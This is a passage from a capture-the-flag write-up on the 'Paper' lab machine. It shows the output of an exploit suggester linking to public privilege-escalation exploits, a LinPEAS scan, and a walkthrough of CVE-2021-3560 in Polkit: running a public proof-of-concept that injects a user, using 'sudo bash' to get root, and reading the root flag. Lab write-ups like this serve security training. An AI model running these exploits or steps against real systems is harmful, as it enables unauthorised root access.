   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: less probable
   Tags: ubuntu=10|11|12|13|14|15|16|17|18|19|20|21,debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: mint=19,ubuntu=18|20, debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: centos=6|7|8,ubuntu=14|16|17|18|19|20, debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2019-18634] sudo pwfeedback

   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/
   Exposure: less probable
   Tags: mint=19
   Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c
   Comments: sudo configuration requires pwfeedback to be enabled.

[+] [CVE-2019-15666] XFRM_UAF

   Details: https://duasynt.com/blog/ubuntu-centos-redhat-privesc
   Exposure: less probable
   Download URL: 
   Comments: CONFIG_USER_NS needs to be enabled; CONFIG_XFRM needs to be enabled

[+] [CVE-2019-13272] PTRACE_TRACEME

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1903
   Exposure: less probable
   Tags: ubuntu=16.04{kernel:4.15.0-*},ubuntu=18.04{kernel:4.15.0-*},debian=9{kernel:4.9.0-*},debian=10{kernel:4.19.0-*},fedora=30{kernel:5.0.9-*}
   Download URL: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/47133.zip
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2019-13272/poc.c
   Comments: Requires an active PolKit agent.
```

It finds a few potential exploits, but their exposure are all categorized as 'less probable'.

Unfortunately, none of them work.

## Linpeas

Time to run [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to enumerate this box more deeply.

```sh
[dwight@paper ~]$ /tmp/linpeas.sh
```

```
<SNIP>

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version
Sudo version 1.8.29

Vulnerable to CVE-2021-3560

<SNIP>
```

So `linpeas` reports many things that we already found by manually enumerating the box, but it found that Paper was vulnerable to [CVE-2021-3560](https://nvd.nist.gov/vuln/detail/CVE-2021-3560).

Note that at the moment of writing this CVE is not detected on new versions of `linpeas`, so you have to use an old one to find it, as mentioned in [this GitHub issue](https://github.com/carlospolop/PEASS-ng/issues/339). I used [this version](https://github.com/carlospolop/PEASS-ng/releases/tag/20220213).

# Privilege escalation ([CVE-2021-3560](https://nvd.nist.gov/vuln/detail/CVE-2021-3560))

[CVE-2021-3560](https://nvd.nist.gov/vuln/detail/CVE-2021-3560) is a vulnerability in Polkit, a system authorization framework that allows applications to ask for permission to perform actions that require elevated privileges, mainly used on Linux. The vulnerability lies in Polkit's handling of D-Bus requests, a message bus system that allows applications to communicate with each other. When an application makes a D-Bus request to Polkit, Polkit checks the requester's credentials to determine whether they have the necessary permissions. But in the case of [CVE-2021-3560](https://nvd.nist.gov/vuln/detail/CVE-2021-3560), Polkit can be tricked into bypassing the credential checks for D-Bus requests. This can be done by creating a malicious D-Bus request that appeared to come from a trusted application, such as the user's desktop environment, therefore gaining `root` privileges on the target system.

## Preparation

If we search online for a PoC, we find a [GitHub repository](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) created by the author of Paper. What a coincidence!

Let's download it to our machine and transfer it on Paper.

## Exploitation

This script creates a new user, by default named `secnigma` with password `secnigmaftw`. I'd prefer to create a username with my own name, and thankfully this script takes optional flags to change that!

```sh
[dwight@paper ~]$ /tmp/poc.sh -u=mmezirard -p=mmezirard
```

```
[!] Username set as : mmezirard
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username mmezirard...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username mmezirard  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - mmezirard
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
```

It didn't work the first runs, but this script warns us that this is totally normal, so I simply ran it again until it worked.

Now it gives us the steps required to get `root`!

```sh
[dwight@paper tmp]$ su - mmezirard
```

```
Password:
[mmezirard@paper ~]$
```

Now we simply have to run `sudo bash` to drop into a `root` shell!

```sh
[mmezirard@paper ~]$ sudo bash
```

```
<SNIP>
[sudo] password for mmezirard: 
[root@paper mmezirard]#
```

Let's confirm that we are `root`:

```sh
[root@paper mmezirard]# whoami
```

```
root
```

Nice!

# Local enumeration

## Home folder

The only thing we need to do to finish this box is to retrieve the root flag. As usual, we can find it in `/root`!

```sh
[root@paper mmezirard]# cat /root/root.txt
```

```
f46c0b5c994a22597d23f3f797225645
```

# Afterwords



That's it for this box! I found the foothold really long, this is definitely the longest I've done so far. It was not overly complicated to exploit though. The privilege escalation was really hard to find, becuase as I mentioned in this write-up the latest versions of `linpeas` don't find the CVE to get `root`, so I had to look it up online. The exploit also required several runs to properly work, which was annoying.

Thanks for reading!
